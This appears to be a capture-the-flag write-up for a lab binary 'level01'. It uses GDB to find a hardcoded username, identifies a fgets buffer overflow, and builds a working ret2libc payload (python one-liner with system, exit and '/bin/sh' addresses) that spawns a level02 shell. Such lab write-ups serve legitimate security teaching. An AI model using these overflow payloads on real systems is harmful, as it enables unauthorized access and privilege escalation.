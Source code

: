 
# Level01 - Exploiting a Login Bypass with Buffer Overflow

## Objective

The goal of this challenge is to bypass the login check by exploiting a buffer overflow vulnerability to gain access and execute a shell.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: coucou
verifying username....

nope, incorrect username...
```

The program prompts for a username and indicates that the entered username is incorrect.

## Step 2: Analyzing with GDB

To understand how the program works, let's analyze it using GDB (GNU Debugger):

```bash
$ gdb -q ./level01
```

## Step 3: Finding the Username Check

Within GDB, you can identify that the program uses `fgets` for input, and a function `verify_user_name` checks the username:

```assembly
0x08048528 <+88>: call   0x8048370 <fgets@plt>
0x0804852d <+93>: call   0x8048464 <verify_user_name>
```

The function performs a manual comparison equivalent to `strncmp` with the string `dat_wil`:

```assembly
(gdb) disas verify_user_name
0x0804846c <+8>: mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
0x08048473 <+15>: call   0x8048380 <puts@plt>
0x08048478 <+20>: mov    edx,0x804a040    <--- "dat_wil\n"
0x0804847d <+25>: mov    eax,0x80486a8    <--- "dat_wil"
```

### Step 4: Enter the Correct Username

Now, run the program again and enter the correct username:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

The program accepts the username and prompts for a password.

## Step 5: Finding the Password Check

The password is checked by the `verify_user_pass` function after another `fgets` call:

```assembly
0x08048574 <+164>: call   0x8048370 <fgets@plt>
0x08048580 <+176>: call   0x80484a3 <verify_user_pass>
```

This function compares the input with the string `admin`, but entering `admin` doesn't work.

## Step 6: Buffer Overflow Vulnerability

Inspecting the code shows that `fgets` reads up to 100 characters into a 16-byte buffer, causing an overflow. The buffer overflow allows us to overwrite the return address.

### Triggering the Overflow

Run the program with an overly long input:

```bash
(gdb) r
Starting program: ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbb
```

The program crashes with a segmentation fault, indicating control over the instruction pointer.

## Step 7: Exploiting with Ret2libc

With the overflow, we can perform a Ret2libc attack. We need addresses for `system`, `exit`, and the string `"/bin/sh"`:

1. Address of `/bin/sh`: `0xf7f897ec`
2. Address of `system`: `0xf7e6aed0`
3. Address of `exit`: `0xf7e5eb70`

### Building the Payload

Construct the payload using the discovered addresses:

```bash
("B" * 80) + "system" + "ret = exit" + "/bin/sh"
```

Execute the attack:

```bash
$ python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload
$ cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
$ whoami
level02
```

## Summary

- The program checks username and password using manual comparisons.
- Buffer overflow allows overwriting the return address.
- Ret2libc attack is used to execute `/bin/sh`.

This approach allows bypassing the login and gaining elevated access.
